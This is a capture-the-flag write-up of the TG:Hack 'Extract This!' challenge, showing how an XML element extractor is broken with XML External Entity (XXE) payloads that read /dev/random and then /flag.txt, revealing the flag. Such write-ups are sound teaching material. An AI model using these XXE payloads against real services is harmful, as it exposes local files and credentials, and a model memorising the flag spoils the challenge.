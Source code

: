 # Writeup - Extract This!
**Author: Chabz**

**Difficulty: challenging**

**Category: pwn**

---

When connecting to the task we are 
presented with this:
```
$ nc extract.tghack.no 6000
Welcome to this absolutely not suspicious XML element extractor!


Please enter your XML here:
```

So it wants some XML to parse. Let's
try some basic stuff:
```
Please enter your XML here:
<tag>data</tag>
data
```

Looks like it just returns whatever is inside the tag.
So how can we exploit this thing? Some googling on
`xml exploits` gives us this [OWASP article](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing).
The first example targeting `/dev/random` seems to have
some effect (it doesn't return anything):
```
Please enter your XML here:
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [  <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>



^C
```

Let's try to adapt it to our needs. We guess that the
flag is stored in a `flag.txt`:
```
Please enter your XML here:
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///flag.txt"> ]><foo>&xxe;</foo>
TG20{never_trust_the_external_entities}

```

Success! The flag is `TG20{never_trust_the_external_entities}`.
